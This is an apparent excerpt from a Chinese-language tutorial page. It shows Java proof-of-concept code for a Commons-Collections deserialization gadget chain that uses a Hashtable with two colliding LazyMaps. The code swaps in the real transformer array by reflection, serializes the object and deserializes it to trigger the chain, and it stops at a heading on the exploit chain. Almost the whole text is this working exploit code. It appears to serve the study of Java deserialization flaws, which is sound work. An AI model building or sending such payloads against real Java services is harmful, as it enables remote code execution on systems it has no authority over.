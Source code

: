 ```java

        //ChainedTransformer实例
        //先设置假的 Transformer 数组，防止生成时执行命令
        Transformer chainedTransformer = new ChainedTransformer(fakeTransformerransformer);

        //LazyMap实例
        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();

        Map lazyMap1 = LazyMap.decorate(innerMap1,chainedTransformer);
        lazyMap1.put("yy", 1);

        Map lazyMap2 = LazyMap.decorate(innerMap2,chainedTransformer);
        lazyMap2.put("zZ", 1);




        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, "test");
        hashtable.put(lazyMap2, "test");


        //通过反射设置真的 ransformer 数组
        Field field = chainedTransformer.getClass().getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chainedTransformer, transformers);

        //上面的 hashtable.put 会使得 lazyMap2 增加一个 yy=>yy，所以这里要移除
        lazyMap2.remove("yy");

        //序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(hashtable);
        oos.flush();
        oos.close();

        //测试反序列化
        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }

}
```

## 利用链
